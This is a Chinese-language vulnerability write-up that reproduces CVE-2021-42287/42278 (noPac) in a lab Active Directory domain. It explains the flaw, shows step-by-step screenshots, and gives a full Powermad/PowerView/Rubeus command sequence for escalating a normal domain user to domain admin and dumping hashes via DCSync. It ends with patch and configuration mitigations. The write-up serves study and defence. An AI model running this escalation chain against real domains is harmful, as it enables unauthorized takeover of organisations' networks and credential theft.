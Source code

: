 ```yaml
---
title: CVE-2021-42287 漏洞复现及分析
date: 2021-12-18 10:50:34
tags:
---
```


# CVE-2021-42287 漏洞复现及分析

该漏洞产生的原因是由于AD没有对域内机器账户名做验证，导致绕过安全限制，经过远程身份验证的攻击者可以结合CVE-2021-42278将域内普通用户权限提升到域管理员权限。

## 概述

在域中请求ST（server ticket）票证时，首先需要提供 TGT票据。当 KDC 未找到请求的ST票证时，KDC 会自动再次搜索带有$结尾的用户。

假如域内有一台域控名为 DC（域控对应的机器用户为 DC$），此时攻击者利用漏洞 CVE-2021-42287 创建一个机器用户ZAWX$，再把机器用户ZAWX$的sAMAccountName改成DC。然后利用DC这个账号去申请一个TGT票据。申请完后再将DC的sAMAccountName改为ZAWX$。这个时候KDC就会判断域内没有DC这个用户，自动去搜索DC$（DC$是域内已经的域控DC的sAMAccountName），攻击者利用刚刚申请的TGT进行S4U2self，模拟域内的域管去请求域控DC的ST票据，最终获得域控制器DC的权限。

Privileged Attribute Certificate （PAC） 是 Kerberos 票证的扩展，其中包含有关用户权限的信息。当用户在 AD域中进行身份验证时，域控制器会将此信息添加到 Kerberos 票证中。当用户使用其 Kerberos 票证向其他系统进行身份验证时，可以读取 PAC 并用于确定其权限级别，而无需联系域控制器来查询该信息

## 复现

使用工具：powermad，powerview，rebeus（需要特定版的才会有nopac参数（[GitHub - GhostPack/Rubeus at a2470c0e6a6f9eeadd9c884e73e2f507873ac16f](https://github.com/GhostPack/Rubeus/tree/a2470c0e6a6f9eeadd9c884e73e2f507873ac16f)））

该漏洞的复现要求是需要能够修改一个机器账户的sAMAccountName和servicePrincipalName属性，通常我们可以创建一个机器账户（默认情况下，一个账号可以创建十个机器账户），这时候新机器账户的创建者就有足够的权限来修改账户属性，或者我们可以寻找一个将机器加入域时使用来的账号来进行修改属性。

先利用rubeus的nopac来获取tgt

![image-20211213163335276](../img/image-20211213163335276-4138322.png)

 再利用不带nopac参数来获取tgt

![image-20211213163440540](../img/image-20211213163440540-4138322.png)

发现长度不一样，nopac的长度要短很多，这表示可能存在漏洞。

再通过查询ms-ds-machineaccountquota来判断是否可以新建机器账户。在域外环境中我们可以利用runas /netonly /user:infosec\test cmd来创建一个cmd执行操作。

![image-20211213143704118](../img/image-20211213143704118-4138322.png)

并且检查一下**SeMachineAccountPrivileg**是否默认允许Authenticated Users

![image-20211213164220983](../img/image-20211213164220983-4138322.png)

导入powermad和powerview，利用New-MachineAccount命令来创建一个新的机器账户TestSPN

![image-20211213151725376](../img/image-20211213151725376-4138322.png)

接下来我们利用Set-DomainObject来清楚TestSPN账号中的SPN信息。

![image-20211213152018789](../img/image-20211213152018789-4138322.png)

清楚SPN后，需要将我们TestSPN账号的sAMAccountName修改为域控的机器名，这里我们的域控机器名为DC$，我们就将sAMAccountName修改为DC，修改完后，我们利用DC这个账号去请求TGT。

![image-20211213152240125](../img/image-20211213152240125-4138322.png)

![image-20211213152442697](../img/image-20211213152442697-4138322.png)

请求完后，我们将机器账户的sAMAccountName恢复成原值（修改成其他值也可以）

![image-20211213153120243](../img/image-20211213153120243-4138322.png)

修改完后，我们可以利用获取到的TGT来请求一个S4U2self票据（S4U2self是代表自身请求对其自身的kerberos服务票据），根据漏洞原理，KDC就会判断域内没有DC这个用户时就会去寻找DC$，并获取到一个利用DC$的密钥加密的ST，这里我们获取CIFS服务。

![image-20211213154025689](../img/image-20211213154025689-4138322.png)

klist查看我们获取到的票据，并执行命令验证是否成功。

![image-20211213154129640](../img/image-20211213154129640-4138322.png)

同样，我们可以将CIFS修改为LDAP，这时候我们就可以通过dcsync去获取hash

![image-20211213155427128](../img/image-20211213155427128-4138322.png)

![image-20211213155449786](../img/image-20211213155449786-4138322.png)

```
详细命令
//新建机器账户
New-MachineAccount -MachineAccount TestSPN -Domain infosec.com -DomainController DC.infosec.com -Verbose
//清楚SPN
Set-DomainObject "CN=TestSPN,CN=Computers,DC=infosec,DC=com" -Clear 'servicePrincipalname' -Domain infosec.com -DomainController DC.infosec.com -Verbose
//修改samaccountname
Set-MachineAccountAttribute -MachineAccount TestSPN -Value "DC" -Attribute samaccountname -Domain infosec.com -DomainController DC.infosec.com -Verbose
//获取TGT
Rubeus.exe asktgt /user:infosec\DC /password:123qwe!@# /domain:infosec.com /dc:dc.infosec.com /nowrap
//还原samaccountname
Set-MachineAccountAttribute -MachineAccount TestSPN -Value "TestSPN" -Attribute samaccountname -Domain infosec.com -DomainController DC.infosec.com -Verbose
//利用TGT获取ST
Rubeus.exe s4u /impersonateuser:Administrator /nowrap /dc:infosec.com b /self /altservice:CIFS/DC.infosec.com /ptt /ticket:[TGT]
```



利用机器账户的另一种方法是对其账户有足够的权限来编辑其sAMAccountName属性（即对该属性的WriteProperty，或GenericWrite，或GenericAll）。
这种攻击路径还需要知道用户账户密码或哈希值（以获得TGT），这可以通过许多方式获得（例如，有针对性的Kerberoasting，影子证书，强制密码更改）。
除了机器账户的创建和SPNs的操作外，利用步骤与机器账户相同。如果账户有指向其名称的SPN，则必须删除这些SPN才能使重命名操作生效。

## 工具利用

sam_the_admin

[GitHub - WazeHell/sam-the-admin: Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user](https://github.com/WazeHell/sam-the-admin)

![image-20211213161721419](../img/image-20211213161721419-4138322.png)

## 解决方案

缓解此问题的最佳方法是安装 Microsoft 修补程序 （[KB5008602](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)），此修补程序修复了PAC混淆的问题，并修复了由早期KB5008380修补程序创建的S4U2self的此问题。

将允许创建的机器账户数量设置为**0**是阻止低特权用户创建计算机帐户的快速简便修复方法，另一个相关修复方法是从*SeMachineAccountPrivilege*中删除****Authenticated Users****，并添加*域管理员*或另一组允许的帐户。



